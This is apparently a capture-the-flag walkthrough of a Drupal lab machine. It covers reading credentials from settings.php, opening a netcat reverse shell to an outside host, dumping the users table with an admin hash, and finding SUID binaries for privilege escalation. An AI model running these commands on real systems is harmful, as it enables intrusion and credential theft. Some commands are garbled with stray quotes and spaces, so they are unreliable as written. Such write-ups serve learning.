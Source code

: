 You will immediately notice the file 'flag.1.txt'. Browsing through its content, we see another hint: ```


```Every good CMS needs a config file - and so do you

So we google "Drupal config file directory".
We can see that it is located in the folder ```/sites/default / ''
In it we have the configuration file ```settings.php```. Already at the very beginning of the file, we see flag 2.

![Imgur](https://i.imgur.com/xlBZq3Q.png)

As the note says, at the bottom, there are credentials for the database account. So let's log in.

```mysql -u dbuser -p ```


This command does not work. We get an access denied error, but it may be more because we are working in a web shell all the time.

## REVERSE SHELL
Let's connect to our machine with the reverse shell ''
nc -nv 192.168.56.103 1234 -e / bin / bash```. It will not be an aesthetic shell so let's make it even better with ```python -c "import pty; pty.spawn ('/ bin / bash')" ```
I repeat the previous steps and enter the password.

## ESCFILTRATION FROM THE DATABASE
We can now extract data from mysql. A good first step would be to show the names of the ```show databases; '' databases
> Remember about the semicolon

We see information_schema which has basic information about the database and its structure. However, we are interested in the drupaldb base.
```use drupaldb '' ```
```show tables from drupaldb; ```
We see one specifically important for us "users" array.
```select * from users; ```
![users](https://i.imgur.com/yx1avkT.png)

So we now have an admin hash. Now the only question is whether we should waste time hashing it? From the previous hints, it can be concluded that the author gives us more options than just breaking the admin password.
## ESCALATION OF POWERS
One of the basic techniques for escalating privileges is through SUID programs (Those that need different privileges than those of the user executing the command)
. To display them, execute the command:
```bash
find / -perm -u = s -type f 2> / dev / null```
```
![Imgur](https://i.imgur.com/lwXRepw.png)

Many of them are normal commands. For example, / usr / bin / passwd must have administrator privileges because it needs access to / etc / passwd and / etc / shadow. However, there is a command ```find```which has unnecessary SUID status
The find command has a built-in flag -exec (Recall the content of the flag3)
